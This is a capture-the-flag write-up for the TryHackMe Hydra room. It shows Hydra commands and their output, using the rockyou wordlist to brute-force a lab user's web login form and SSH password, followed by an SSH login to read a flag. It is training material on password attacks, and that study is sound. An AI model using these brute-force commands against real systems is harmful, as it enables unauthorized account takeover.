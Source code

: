 # TryHackMe Hydra

# **Use Hydra to brute force Molly's web password. What is flag 1?**

- First we will brute force Molly's password with `hydra`:

```bash
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
[80][http-post-form] host: 10.10.80.107   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
```

- Login with the credentials and obtain the flag:

![Untitled.png](TryHackMe%20Hydra%205f5874a48a5340cfadbdda0bc5a079dd/Untitled.png)

# **Use Hydra to brute force Molly's SSH password. What is flag 2?**

- Use Hydra's SSH along with the `rockyou.txt` password list to brute force Molly's server password:

```bash
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> -t 4 ssh
[22][ssh] host: 10.10.80.107   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
```

- Log-in to Molly's server using her SSH credentials:

```bash
┌─[azab@ze2pac]─[~]
└──╼ $ssh molly@<MACHINE_IP>
The authenticity of host '10.10.80.107 (10.10.80.107)' can't be established.
ECDSA key fingerprint is SHA256:2xyt3KiRbwRE9QAMyGP0CYYgTJvLavbf5t7RFWUeKro.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.80.107' (ECDSA) to the list of known hosts.
molly@10.10.80.107's password:
molly@ip-10-10-80-107:~$ ls
flag2.txt
molly@ip-10-10-80-107:~$ cat flag2.txt
THM{********************************}
```
